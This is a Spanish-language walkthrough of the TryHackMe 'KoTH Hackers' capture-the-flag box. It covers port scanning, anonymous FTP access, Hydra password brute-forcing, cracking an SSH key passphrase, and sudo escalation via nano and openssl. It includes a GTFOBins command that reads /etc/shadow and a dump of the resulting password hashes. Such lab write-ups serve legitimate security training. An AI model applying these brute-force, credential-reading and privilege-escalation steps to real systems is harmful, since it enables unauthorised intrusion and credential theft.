










TryHackMe - KoTH Hackers

Contenido
| Titulo | KoTH Hackers |
|---|---|
| Info | May 2020 rotation KoTH box |
| Puntos | * |
| Dificultad | Media |
| Maker | NinjaJc01 |
NMAP
Escaneo de puertos tcp, nmap nos muestra el puerto ftp (21), http (80) y el puerto ssh (22) abiertos.
# Nmap 7.80 scan initiated Fri Jul 10 16:49:57 2020 as: nmap -sV -p- -T5 -o nmap_scan kothhacker.thm
Warning: 10.10.130.16 giving up on port because retransmission cap hit (2).
Nmap scan report for kothhacker.thm (10.10.130.16)
Host is up (0.15s latency).
Not shown: 65488 closed ports, 43 filtered ports
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 2.0.8 or later
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open http Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
9999/tcp open abyss?
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.80%I=7%D=7/10%Time=5F08E4C8%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,75,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Fri,\x2010\x20Jul\x2020
SF:20\x2021:59:36\x20GMT\r\nContent-Length:\x201\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\n\r\n\n")%r(HTTPOptions,75,"HTTP/1\.0\x20200\
SF:x20OK\r\nDate:\x20Fri,\x2010\x20Jul\x202020\x2021:59:36\x20GMT\r\nConte
SF:nt-Length:\x201\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\n\r\
SF:n\n")%r(FourOhFourRequest,75,"HTTP/1\.0\x20200\x20OK\r\nDate:\x20Fri,\x
SF:2010\x20Jul\x202020\x2021:59:37\x20GMT\r\nContent-Length:\x201\r\nConte
SF:nt-Type:\x20text/plain;\x20charset=utf-8\r\n\r\n\n")%r(GenericLines,67,
SF:"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20
SF:charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(
SF:RTSPRequest,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20
SF:text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\
SF:x20Request")%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-T
SF:ype:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400
SF:\x20Bad\x20Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Req
SF:uest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x2
SF:0close\r\n\r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1
SF:\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset
SF:=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSess
SF:ionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/
SF:plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Re
SF:quest")%r(Kerberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Ty
SF:pe:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\
SF:x20Bad\x20Request")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\
SF:r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clos
SF:e\r\n\r\n400\x20Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x
SF:20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCo
SF:nnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP
SF:/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20chars
SF:et=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Jul 10 17:01:09 2020 -- 1 IP address (1 host up) scanned in 671.62 seconds
HTTP
Encontramos una pagina web en el puerto 80.

Al revisar las hojas de estilo de la pagina, encontramos una flag. 
GOBUSTER
Utilizamos gobuster para busqueda de directorios y archivos.
root@upset:~/thm/kothhacker# gobuster dir -u http://kothhacker.thm/ -w /usr/share/wordlists/dirb/common.txt -q -t 25 -x php,html,txt
/backdoor (Status: 301)
/contact (Status: 301)
/img (Status: 301)
/index.html (Status: 301)
/index.html (Status: 301)
/news (Status: 301)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/staff (Status: 301)
Vemos que en backdoor existe un formulario de autenticacion.

Revisamos el codigo fuente de esta pagina y encontramos un archivo javascript que realiza la autenticacion y que si esta es correcta redirige hacia otra pagina.
if (statusOrCookie=== "Incorrect credentials") {
alert("Incorrect Credentials")
passwordBox.value=""
} else {
Cookies.set("SessionToken",statusOrCookie)
window.location = "/backdoor/shell"
}
/backdoor/shell es la pagina a la que nos redirige, analizamos la pagina y vemos que al visitarla nos redirige nuevamente al /, por lo que solo podemos leer el codigo fuente, en este ultimo encontramos un archivo Javascript en donde nuevamente verifica la auntenticacion con una cookie. Pero lo interesante es de que contiene un formulario en donde se pueden “ejecutar comandos” y lo hace mediante una api.
async function runCommand(commandText) {
if (commandText === "exit") {
Cookies.set("SessionToken","")
window.location = "/"
return
}
const outputBox = document.getElementById("outputBox");
if (commandText === "clear") {
outputBox.textContent = ""
return
}
outputBox.textContent += "plague@gibson:$ " + commandText + "\n"
outputBox.textContent += await (await postData("/api/cmd", commandText)).text()
window.scrollBy(0, 1000);
}
FTP
Utilizamos las “credenciales” de anonymous (anonymous:anonymous) para ingresar por el servicio FTP, en donde logramos encontrar dos archivos, el primero contiene una flag y el segundo una nota.
root@upset:~/thm/kothhacker# ftp kothhacker.thm
Connected to kothhacker.thm.
220-Ellingson Mineral Company FTP Server
220-
220-WARNING
220-Unauthorised Access is a felony offense under the Computer Fraud and Abuse Act 1986
220
Name (kothhacker.thm:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x 2 ftp ftp 4096 Apr 30 04:42 .
drwxr-xr-x 2 ftp ftp 4096 Apr 30 04:42 ..
-rw-r--r-- 1 ftp ftp 38 Apr 30 04:42 .flag
-rw-r--r-- 1 ftp ftp 400 Apr 29 03:57 note
226 Directory send OK.
ftp> get .flag
local: .flag remote: .flag
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .flag (38 bytes).
226 Transfer complete.
38 bytes received in 0.00 secs (189.3336 kB/s)
ftp> get note
local: note remote: note
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note (400 bytes).
226 Transfer complete.
400 bytes received in 0.00 secs (3.4060 MB/s)
ftp> exit
221 Goodbye.
root@upset:~/thm/kothhacker# cat note
Note:
Any users with passwords in this list:
love
sex
god
secret
will be subject to an immediate disciplinary hearing.
Any users with other weak passwords will be complained at, loudly.
These users are:
rcampbell:Robert M. Campbell:Weak password
gcrawford:Gerard B. Crawford:Exposing crypto keys, weak password
Exposing the company's cryptographic keys is a disciplinary offense.
Eugene Belford, CSO
root@upset:~/thm/kothhacker#

RCAMPBELL - SSH/HYDRA
En la nota encontramos dos nombres de usuario en donde mencionan que tienen contraseñas debiles. Creamos un archivo de texto (users.txt) para utilizarlo junto con Hydra en el servicio ssh con el wordlist rockyou, y logramos obtener la contraseña para el usuario rcampbell y además el usuario gcrawford al parecer no tiene activado el acceso por este servicio.

Logramos obtener una shell con el usuario rcampbell y una flag.

Revisando los archivos FTP de configuracion encontramos otra flag.

No logramos encontrar ningun archivo que nos ayudara para escalar privilegios por lo que utilizamos nuevamente HYDRA con los usuarios encontrados en el servicio FTP. Logramos encontrar la misma contraseña para rcampbell. 
root@upset:~/thm/kothhacker# ftp kothhacker.thm
Connected to kothhacker.thm.
220-Ellingson Mineral Company FTP Server
220-
220-WARNING
220-Unauthorised Access is a felony offense under the Computer Fraud and Abuse Act 1986
220
Name (kothhacker.thm:root): rcampbell
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-x--- 4 ftp ftp 4096 Jul 10 22:39 .
drwxr-x--- 4 ftp ftp 4096 Jul 10 22:39 ..
lrwxrwxrwx 1 ftp ftp 9 Apr 30 01:33 .bash_history -> /dev/null
-rw-r--r-- 1 ftp ftp 220 Apr 29 03:58 .bash_logout
-rw-r--r-- 1 ftp ftp 3771 Apr 29 03:58 .bashrc
drwx------ 2 ftp ftp 4096 Jul 10 22:16 .cache
-r-------- 1 ftp ftp 38 Apr 30 04:44 .flag
drwx------ 3 ftp ftp 4096 Jul 10 22:16 .gnupg
-rw-r--r-- 1 ftp ftp 807 Apr 29 03:58 .profile
226 Directory send OK.
GCRAWFORD - FTP/HYDRA
Utilizamos nuevamente HYDRA pero esta vez con el usuario gcrawford en donde logramos obtener una contraseña para el servicio FTP. 
Ingresamos al servicio y encontramos la clave privada y publica SSH de este usuario, además encontramos un archivo de texto.
root@upset:~/thm/kothhacker# ftp kothhacker.thm
Connected to kothhacker.thm.
220-Ellingson Mineral Company FTP Server
220-
220-WARNING
220-Unauthorised Access is a felony offense under the Computer Fraud and Abuse Act 1986
220
Name (kothhacker.thm:root): gcrawford
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -lah
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-x--- 6 ftp ftp 4096 Apr 30 04:25 .
drwxr-x--- 6 ftp ftp 4096 Apr 30 04:25 ..
lrwxrwxrwx 1 ftp ftp 9 Apr 30 01:31 .bash_history -> /dev/null
-rw-r--r-- 1 ftp ftp 220 Apr 29 04:00 .bash_logout
-rw-r--r-- 1 ftp ftp 3771 Apr 29 04:00 .bashrc
drwx------ 2 ftp ftp 4096 Apr 29 17:05 .cache
drwx------ 3 ftp ftp 4096 Apr 29 17:05 .gnupg
drwxrwxr-x 3 ftp ftp 4096 Apr 29 20:53 .local
-rw-r--r-- 1 ftp ftp 807 Apr 29 04:00 .profile
drwx------ 2 ftp ftp 4096 Jul 10 21:07 .ssh
-r-------- 1 ftp ftp 252 Apr 30 04:25 business.txt
226 Directory send OK.
ftp> cd .ssh
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 ftp ftp 398 Jul 10 21:07 authorized_keys
-rw------- 1 ftp ftp 1766 Jul 10 21:07 id_rsa
-rw-r--r-- 1 ftp ftp 398 Jul 10 21:07 id_rsa.pub
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for id_rsa (1766 bytes).
226 Transfer complete.
1766 bytes received in 0.00 secs (2.2396 MB/s)
ftp> cd ..
250 Directory successfully changed.
ftp> get business.txt
local: business.txt remote: business.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for business.txt (252 bytes).
226 Transfer complete.
252 bytes received in 0.00 secs (1.7935 MB/s)
ftp> exit
221 Goodbye.
El archivo de texto contiene una flag. 
Intentamos autenticarnos con el archivo id_rsa en el servicio SSH pero al parecer el archivo esta protegido por una frase.
root@upset:~/thm/kothhacker# ssh gcrawford@kothhacker.thm -i id_rsa
Unauthorised access is a federal offense under the Computer Fraud and Abuse Act 1986
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
Enter passphrase for key 'id_rsa':
gcrawford@kothhacker.thm: Permission denied (publickey).
root@upset:~/thm/kothhacker#
Utilizamos ssh2john para obtener el hash del archivo -id_rsa- y crackeamos el hash con john.

Logramos obtener la frase y logramos obtener una shell con el usuario gcrawford. 
PRIVILEGE ESCALATION
Hacemos una pequeña enumeracion con sudo -l -l y vemos que tenemos permisos root (sudo) para ejecutar el comando nano con el archivo bussines.txt. Utilizamos nano para obtener una shell root.

Logramos obtener una flag en /root/.

Agregamos nuestra clave publica al archivò authorized_keys e ingresamos con el usuario root en el servicio ssh.

Buscamos la flag en el directorio /home y logramos encontrar las dos ultimas en /home/tryhackme/.flag y/home/production/.flag.

PLAGUE - API/HYDRA
En una de las paginas principales y en robots.txt encontramos un comentario que hacen enfasis en plague. Utilizamos Hydra y en donde el parametro usuario utilizamos plage.


Utilizamos Hydra para intentar logearnos en /backdoor/shell, logramos encontrar la contraseña para plague.

Logramos autenticarnos y ejecutar comandos.

Ya que podemos ejecutar comandos vamos a obtener una shell inversa.


Hacemos una pequeña enumeracion con sudo -l -l y vemos que tenemos permisos root (sudo) para ejecutar el comando openssl. Utilizamos GTFOBINS para leer el archivo /etc/shadow.

LFILE=/etc/shadow
/usr/bin/sudo /usr/bin/openssl enc -in "$LFILE"
Logramos obtener el contenido, las contraseñas encriptadas.
tryhackme:$6$m6t6Wwb.Irn8qFzm$LJ8sBnQX6.XDyqjQuL0XVoVSOXyRlcugWjbp3cN80Xl9344moBmQ/XdQfO2w5Oub4Kz0eBFG4KeP..05hFh171:18378:0:99999:7:::
production:$6$CMJF8CIY$aq3ycncJkhhTa6h6vgec5Dr53cKJmQ.9Fa.7ZceaolrIr0B5DDKHZfV97GI0puAfrD.hCt0ZOBqtbt/RT/1TV.:18381:0:99999:7:::
ftp:*:18381:0:99999:7:::
rcampbell:$6$OlVRVXBb$5toooBVqa93gBtUncQNyMHeKvMdy.Wtr9eukllbmOv7wd8X.LaQR/tTYK9D1BCFSVGI3Pr/dD4U08d/8wNwES1:18453:0:99999:7:::
gcrawford:$6$PujyDO0o$/TQMT0PNSCO.1qavpm26sCu9TAt.OTvjhQrXYVY5S.MNUg6XE0pxHnB3lRqfZEYo1Vjvyo8TY6CTE3FH/vzXL1:18453:0:99999:7:::